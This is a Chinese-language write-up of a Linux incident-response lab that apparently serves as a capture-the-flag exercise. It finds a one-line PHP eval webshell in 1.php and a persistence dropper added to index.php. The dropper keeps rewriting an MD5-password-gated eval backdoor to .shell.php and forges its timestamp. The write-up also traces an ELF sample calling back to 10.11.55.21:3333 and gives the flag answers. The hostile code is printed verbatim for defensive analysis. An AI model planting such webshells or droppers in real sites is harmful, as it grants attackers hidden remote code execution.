


# 第一章 应急响应 - Linux 入侵排查

## 1

> web 目录存在木马，请找到木马的密码提交

列出 `/var/www/html` 目录下的所有文件

```plaintext
root@ip-10-0-10-4:/var/www/html# ls -lah
total 736K
drwxrwxrwx 8 www-data www-data 4.0K Aug  3  2023  .
drwxr-xr-x 3 root     root     4.0K Aug  3  2023  ..
-rwxrwxrwx 1 www-data www-data   24 Aug  3  2023  1.php
-rw-r--r-- 1 root     root     640K Aug  3  2023  1.tar
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  admin
-rwxrwxrwx 1 www-data www-data  280 Aug  3  2023  api.php
-rwxrwxrwx 1 www-data www-data  882 Aug  3  2023  config.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  data
-rwxrwxrwx 1 www-data www-data  894 Aug  3  2023  favicon.ico
-rwxrwxrwx 1 www-data www-data  142 Aug  3  2023  .htaccess
drwxrwxrwx 4 www-data www-data 4.0K Aug  3  2023  include
-rwxrwxrwx 1 root     root      722 Aug  3  2023  index.php
-rwxrwxrwx 1 www-data www-data  13K Aug  3  2023  install.php
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  LICENSE
drwxrwxrwx 2 www-data www-data 4.0K Aug  3  2023  pictures
-rwxrwxrwx 1 www-data www-data 2.2K Aug  3  2023  README.md
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  rss.php
-rw-r--r-- 1 www-data www-data  207 Aug  3  2023 'shell(1).elf'
-rw-r--r-- 1 www-data www-data   88 Jan  1  2021  .shell.php
-rwxrwxrwx 1 www-data www-data  566 Aug  3  2023  sitemap.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  template
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  wap
```

相较于传统的 web 服务端源码，其 `1.php` 文件名尤为可疑，查看其文件内容

```php title="1.php"
<?php eval($_POST[1]);?>
```

即可得知木马的连接密码

```flag
flag{1}
```

## 2

> 服务器疑似存在不死马，请找到不死马的密码提交

文件的修改时间都一样，但是 `index.php` 文件的权限明显与其他文件不同，为 `root`

查看 `index.php` 文件的内容

```php title="index.php"
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
        $path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
        Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d"2021-01-01 00:00:01".shell.php');
usleep(3000);
?>
```

很明显，存在有往 `.shell.php` 文件写入 webshel 的操作，其 webshell 源码为

```php title=webshell
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

由于每一次访问服务端，都要访问 `index.php` 文件，那么 `.shell.php` 文件就会一直被创建，即可一定意义上实现不死的效果

基于 php 代码 `md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"` 的逻辑，将 MD5 哈希进行反查彩虹表，即可知道连接密码为 `hello`

```flag
flag{hello}
```

## 3

> 不死马是通过哪个文件生成的，请提交文件名

由上一题可以得知，不死马 `.shell.php` 文件是由 `index.php` 文件创建的，所以可以得到答案

```flag
flag{index.php}
```

## 4

> 黑客留下了木马文件，请找出黑客的服务器 ip 提交

继续查看攻击者可能上传的目录 `/var/www/html` 以及 `/tmp`

```plaintext
root@ip-10-0-10-4:/var/www/html# ls -lah
total 736K
drwxrwxrwx 8 www-data www-data 4.0K Aug  3  2023  .
drwxr-xr-x 3 root     root     4.0K Aug  3  2023  ..
-rwxrwxrwx 1 www-data www-data   24 Aug  3  2023  1.php
-rw-r--r-- 1 root     root     640K Aug  3  2023  1.tar
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  admin
-rwxrwxrwx 1 www-data www-data  280 Aug  3  2023  api.php
-rwxrwxrwx 1 www-data www-data  882 Aug  3  2023  config.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  data
-rwxrwxrwx 1 www-data www-data  894 Aug  3  2023  favicon.ico
-rwxrwxrwx 1 www-data www-data  142 Aug  3  2023  .htaccess
drwxrwxrwx 4 www-data www-data 4.0K Aug  3  2023  include
-rwxrwxrwx 1 root     root      722 Aug  3  2023  index.php
-rwxrwxrwx 1 www-data www-data  13K Aug  3  2023  install.php
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  LICENSE
drwxrwxrwx 2 www-data www-data 4.0K Aug  3  2023  pictures
-rwxrwxrwx 1 www-data www-data 2.2K Aug  3  2023  README.md
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  rss.php
-rw-r--r-- 1 www-data www-data  207 Aug  3  2023 'shell(1).elf'
-rw-r--r-- 1 www-data www-data   88 Jan  1  2021  .shell.php
-rwxrwxrwx 1 www-data www-data  566 Aug  3  2023  sitemap.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  template
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  wap

root@ip-10-0-10-4:/var/www/html# ls -lah /tmp/
total 36K
drwxrwxrwt  9 root root 4.0K Oct  1 08:09 .
drwxr-xr-x 18 root root 4.0K Oct  1 08:01 ..
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .font-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .ICE-unix
drwx------  3 root root 4.0K Oct  1 08:01 systemd-private-556ceaa0b7d640a194d01e0c1d5a943e-apache2.service-EqvlaG
drwx------  3 root root 4.0K Oct  1 08:01 systemd-private-556ceaa0b7d640a194d01e0c1d5a943e-ntp.service-LiXjoD
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .Test-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .X11-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .XIM-unix
```

在其中可以注意到可疑 `/var/www/html/shell(1).elf` 文件，基本可以断定此为攻击者的木马文件

使用微步云沙箱进行分析

[样本报告 - 微步在线云沙箱](https://s.threatbook.com/report/file/f176896a421ec411a08aad8ae4592c51609ff95e140c8f3bbe4160424f79ff5d)

在网络行为部分，可以注意到沙箱环境向 `10.11.55.21` 发起了 TCP 请求

```flag
flag{10.11.55.21}
```

## 5

> 黑客留下了木马文件，请找出黑客服务器开启的监端口提交

手动执行 `/var/www/html/shell(1).elf` 样本之后，直接使用 `netstat -alnop` 脚本查看监听端口

```plaintext
root@ip-10-0-10-4:/var/www/html# ./shell\(1\).elf &
[1] 25691
root@ip-10-0-10-4:/var/www/html# netstat -alnop
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      540/mysqld           off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      472/sshd             off (0.00/0/0)
tcp        0      0 10.0.10.4:22            120.35.33.11:58144      ESTABLISHED 961/sshd: root@nott  keepalive (5663.12/0/0)
tcp        0      1 10.0.10.4:59968         10.11.55.21:3333        SYN_SENT    25691/./shell(1).el  on (3.28/2/0)
tcp        0    340 10.0.10.4:22            120.35.33.11:56644      ESTABLISHED 824/sshd: root@pts/  on (0.22/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      523/apache2          off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      472/sshd             off (0.00/0/0)
udp        0      0 0.0.0.0:68              0.0.0.0:*                           334/dhclient         off (0.00/0/0)
udp        0      0 10.0.10.4:123           0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp        0      0 127.0.0.1:123           0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp        0      0 0.0.0.0:123             0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp6       0      0 fe80::f0:ccff:fe9d::123 :::*                                451/ntpd             off (0.00/0/0)
udp6       0      0 ::1:123                 :::*                                451/ntpd             off (0.00/0/0)
udp6       0      0 :::123                  :::*                                451/ntpd             off (0.00/0/0)
......
```

可以看到，恶意样本向 `10.11.55.21:3333` 发起了网络请求，结合上一步攻击者服务器 IP 即可得知答案

还有一个取巧的办法，就是在微步云沙箱里面直接下载网络行为捕获



在捕获文件中，也可以看到沙箱环境向 `10.11.55.21:3333` 这个地址发起请求的记录



```flag
flag{3333}
```
